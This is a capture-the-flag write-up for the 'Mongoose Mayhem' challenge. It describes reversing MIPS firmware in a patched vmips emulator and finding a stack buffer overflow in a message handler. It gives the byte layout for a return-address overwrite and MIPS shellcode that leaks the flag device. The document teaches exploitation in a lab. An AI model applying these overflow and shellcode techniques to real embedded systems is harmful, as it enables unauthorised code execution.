



# Mongoose Mayhem

Files:

- README.txt
- vmips

```
vmips: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=175e87b6e0dffe398c12a784709fae5a03621ded, for GNU/Linux 3.2.0, stripped
```

- firmware.rom

From the readme:

```
The system you are exploiting is running a custom Mongoose V RAD hardened MIPS processor, by Synova Inc. The provided emulator runs the firmware and if you pay attention with it starts up, will show where hardware devices are mapped into the physical address space.  Start the emulator with the following command line:

./vmips -o fpu -o memsize=3000000 firmware.rom
```

If you google the name of the processor, you'll learn it is 'hardened' in term of radiation, but probably doesn't include any extra security protections. There might be some kind of docs online for it, idk.

I fumbled around with trying to load the ROM in Ghidra, but clearly I wasn't loading it at the right offset. But in googling around for information on the vmips emulator I found out:
- It's open source. I ran `vmips --version` and downloaded the source for the version I was given. Cool!
    > This is the home page for vmips, a virtual machine simulator based on a MIPS R3000 processor

    This isn't exactly the same processor the README mentioned, but we'll assume it's close enough. This suggests `MIPS:LE:32:default:default` in Ghidra.
- There was a challenge that used vmips last year. And [Perfect Blue has a write-up on it](https://blog.perfect.blue/Hack-A-Sat-CTF-2020-Launch-Link). Perfect. I will reference this several times.

The write-up from last year's challenge mentioned that the ROM gets loaded at `0xbfc00000`. That works here as well.

We find a jump to the real entrypoint at offset 0:

```
//
// rom
// ram:bfc00000-ram:bfc05f2b
//
bfc00000 00 01 f0 0b     j     FUN_bfc00400
```

Here we find what I assume is some basic setup for the processor, and a pattern also mentioned in the write-up for last year's challenge.

```
  puVar1 = &DAT_bfc059ac;
  puVar4 = &DAT_a0180000;
  do {
    *puVar4 = *puVar1;
    puVar1 = puVar1 + 1;
    puVar4 = puVar4 + 1;
  } while (puVar1 != (undefined4 *)0xbfc05f2c);
```

We're doing a copy from 0xbfc059ac to 0xa0180000. It becomes obvious that this is the data section, as it is read from and written to throughout the program.

We then jump to a function at 0xbfc0578c, which I have labelled 'main'. I spent quite a bit of time reversing everything that happens from here. I didn't label everything or figure out what everything is for, but I gained a better idea of how I might interact with this program.



I'm going to go through the fruits of my reversing efforts in two parts, referencing the above screenshot at times.

## Output

**Debug Prints**

The debug prints seemed totally broken. The `suspiciously_printf` function (at 0xbfc00718) ANDs some global with a priority passed in to see if we should print a debug message. If so, it calls the function at 0xbfc02d68. It looks like the global is initialized to 0x7, which should allow these messages to pass the check and get printed. But they don't. Once I developed other methods of debugging this thing, I didn't care anymore -- so maybe there's a way to view these messages, but I don't think so.

**I observed (by running the program) that it will emit some data at a regular interval. How does this happen?**

I noticed that the innermost function (I labeled wacky_fp_math_and_output) would be run exactly once each time DAT_a0180618 is set to 1, and that otherwise the loop will just spin. This feels a lot like reacting to a timer. This is made more apparent by the call immediately before the loop, which has a debug print saying "enabling timer" (hence my naming of the function).

This function I've labelled wacky_fp_math_and_output does some probably unimportant math on doubles. Then it waits for 0xa3000020 != 0x1, copies the result into 0xa3000024, and then sets 0xa3000020 to 0. Since we know this function ultimately results in stuff printing to the screen, we guess that if we want to print to screen, we want to:

1. Write 16 bytes to 0xa3000024
2. Set the byte at 0xa3000020 to 0
3. ??? hopefully the emulator does something?

### Input

If big_buf + 0x1018 is set to 1, a new function gets called. I've labelled this process_input, and I guessed based on the fact it's a big switch statement based on a "message type" (the `default` case is a print "bad messagetype").

For a while I didn't fully understand how input actually made its way into this function, and we'll talk about that momentarily. For now, assume that a pointer to user-provided data makes its way to this 'process_input' function.



I've labeled a lot of stuff here which is not worth explaining. The gist of it is the message that is passed to `process_input` looks like this:

```
byte
0 --------------------------------------
  | upper 4 bits are message type      |
  | lower 4 bits are message-dependent |
1  --------------------------------------
  | unused?                            |
2 --------------------------------------
  | some amount of message-specific data |
...--------------------------------------

message-specific data can be longer than 8 bytes
```

You can go explore the other functions on your own, but I am just going to highlight the one with the bug later on.

### Getting input into the global buffer

How does data get to the process_input function?

One thing to notice is that the big_buf + 0x1018 flag needs to be 1 in order for us to process input, if you search XREFs you'll find one place this happens, in the function at `0xbfc04490`



I should have used the struct editor so that the different flags could be named here, but I didn't. I'll leave you to trace through the state machine here, but it processes one character at a time. Basically if you want to send a message, you have to:

1. Send 0xa5
2. Send 0x5a
3. Send 0x3e bytes of data, in the format described above

We also have to satisfy the checksum. The decompilation is wrong here for some reason, but the local_c variable is actually keeping track of a sum of all the bytes in the message, and making sure it sums to 0xff.

Once this is all done, we set the flag that causes the main loop to process input.

This leaves one more question... who calls this function?? There are no XREFS.

### Interrupts

There is no OS, and thus no `syscall` instructions. So how can we be notified when there is input available? Connecting the dots with the OS / computer architecture classes I've taken, I realized the answer was interrupts. Somehow the `vmips` emulator has to know how to deliver interrupts. I googled around and found this:

http://www.cs.uwm.edu/classes/cs315/Bacon/Lecture/HTML/ch15s08.html

> ...a single exception handler that must be located at address 0x80000180

Awesome, it's at a static address. But that address doesn't make much sense since we know our ROM is mapped at 0xbfc00000. Look to the source...

In the `CPU::Exception(...)` function (`cpu.cc`):

```
/* Calculate the exception handler address; this is of the form BASE +
    * VECTOR. The BASE is determined by whether we're using boot-time
    * exception vectors, according to the BEV bit in the CP0 Status register.
    */
if (cpzero->use_boot_excp_address()) {
    base = 0xbfc00100;
} else {
    base = 0x80000000;
}

/* Do we have a User TLB Miss exception? If so, jump to the
    * User TLB Miss exception vector, otherwise jump to the
    * common exception vector.
    */
if ((excCode == TLBL || excCode == TLBS) && (cpzero->tlb_miss_user)) {
    vector = 0x000;
} else {
    vector = 0x080;
}
```

Wasting no time trying to determine the value of the various options here, I just set a breakpoint in GDB and checked the value of base + vector. It's `0xbfc00180`. I asked Ghidra to create a function here, and we get a cool interrupt handler, and in one case it processes input!

From here, you can do more reversing to figure out what the other interrupts are for, but it didn't matter in the end.

## Aside: Debugging

The write-up from last year's challenge explained that I would find the built-in debugging features in vmips to be broken or unusable (they were right). Based on the fact that the vmips docs mentioned a different processor and the write-up last year suggested there were modifications, I assumed that this year's `vmips` was also modified from the original source, so recompiling from source was probably not worth my time.

The write-up from last year also explained how they patched vmips to print out register state when the emulated processor reaches a certain PC value. I based my solution on this, but we had to make a lot of modifications. I used Perfect Blue / ret2jazzy's [ELFPatch](https://github.com/ret2jazzy/ELFPatch).

They made some modifications and some stuff also got inlined, which made finding the main loop in vmips challenging, but I eventually found it at 0x40f2c0.

The goal here is for every iteration of the loop to:

1. Check PC, compare with constant
2. If equal, call the CPU::dump_regs function. You can find this by searching for the "Reg Dump" string and then looking at XREFs
    - It has to be called with the CPU as the first parameter and stderr as the second parameter


```
from ELFPatch import *

f = ELFPatch("./vmips")

new_patch = f.new_patch(virtual_address=0x40f2c0, size=0x200, append_original_instructions=True, append_jump_back=True)

new_patch.update_patch(f.assembler.assemble("""
start:
nop
push rdi
push rcx
push rsi
push rax

# Get the CPU -- follow the example of other calls in this function
mov rdi, QWORD PTR [rbx+0x10]
mov rcx, rdi

# Get the PC value from this CPU -- follow the example
# in the CPU::dump_regs function we are calling
mov ecx, DWORD PTR [rcx+0x158]

# Compare with a constant
# (this happens to be the location of my shellcode later)
cmp ecx, 0xa00fefe0

# If not match, skip to end
jne end

# Get stderr... this is same as other places
# stderr is used
mov rsi, 0x545cc8
mov rsi, QWORD PTR [rsi]

# Do the call to CPU::dump_regs
call 0x0404600

end:

pop rax
pop rsi
pop rcx
pop rdi
nop
""", offset=new_patch.chunk.virtual_address))
print("New patch at %s" % (hex(new_patch.chunk.virtual_address)))
f.write_file("./vmips_patched")
```

Now we can view register state at a particular point in the emulated program. This is very helpful.

# The bug

First of all, I don't know for sure if this is the intended bug or not, but it's certainly a bug. One of the message types you can send will call a function I previously labelled `do_i_even_care`. As it turned out, I cared a *lot*.

Spot the bug. Remember we control the contents of the buffer passed as the parameter.

```

void do_i_even_care(byte *param_1)

{
  byte bVar1;
  bool bVar2;
  int iVar3;
  undefined4 local_10;
  undefined4 local_c;

  bVar1 = *param_1;
  memcpy((void *)((int)&local_10 + (bVar1 & 0xf)),param_1 + 2,8);
  iVar3 = FUN_bfc04c74(local_c);
  if ((iVar3 == 0) && (iVar3 = FUN_bfc04c10(local_c), iVar3 == 0)) {
    bVar2 = false;
  }
  else {
    bVar2 = true;
  }
  if (!bVar2) {
    iVar3 = (bVar1 & 0xf) * 8;
    *(undefined4 *)(&DAT_a0180608 + iVar3) = local_10;
    *(undefined4 *)(&DAT_a018060c + iVar3) = local_c;
  }
  return;
}

```

local_10 is ... 0x10 bytes from the bottom of our stack frame (you can verify this by looking at disassembly or the stack listing at the top of the function in Ghidra).

We can write 8 bytes of controlled data at `(int)&local_10 + (bVar1 & 0xf)`. bVar1's upper four bits have to be 0101 (the message id), but we totally control the lower four bits. This allows us to write 8 bytes at (up to) 0xf bytes past local_10 if we want to. On x86 this would probably give us control of the return address at the bottom of our stack frame, but there's something different going on at the return:

```
LAB_bfc05318
bfc05318 25 e8 c0 03     or         sp,s8,zero
bfc0531c 24 00 bf 8f     lw         ra,local_4(sp)
bfc05320 20 00 be 8f     lw         s8,local_8(sp)
bfc05324 28 00 bd 27     addiu      sp,sp,0x28
bfc05328 08 00 e0 03     jr         ra
```

The return address (in the `ra` register) is being loaded from local_4(sp). Trusting that the labels of the locals by Ghidra are correct (they are), we find that all we have to do to get PC control is make the memcpy do:

```
memcpy((void *)((int)&local_10 + 0xc),param_1 + 2,8);
```

Putting the pieces together, we have to send the following to get PC control:

1. handshake: 0xa5, then 0x5a
2. messsage id and our 0xc offset: 0x5c = (0x5 << 4) | (0xc)
3. pad: 0xff
4. return address (4 bytes)
5. another 0x38 bytes of data to make 0x3e body bytes in total


Because this is MIPS, we can just write our shellcode and jump to it. No ASLR, no NX, so nice.

We know the flag device is at 0xa2008000.

Here's my basic shellcode payload:

```
# v0 = load 0xa2008000
# this gets 4 bytes of flag
lui $v0, 0xa200
lw $v0, 0x8000($v0)

# store the 4 bytes to the output
# buffer at 0xa3000024
lui $v1, 0xa300
sw $v0, 0x0024($v1)

# store zero to 0xa3000020
lui $v0, 0xa300
sb $zero, 0x20($v0)

# load the 'real' return address
# which is 0xbfc04fd4
lui $v0, 0xbfc0
or $v0, $v0, 0x4fd4

# like it never even happened
j $v0
```

This only gets us 4 bytes, but we can just run the thing in a giant loop*

\* The flag changes on every connection, so you have to do it all in one connection.

See [solve.py](solve.py) for implementation.
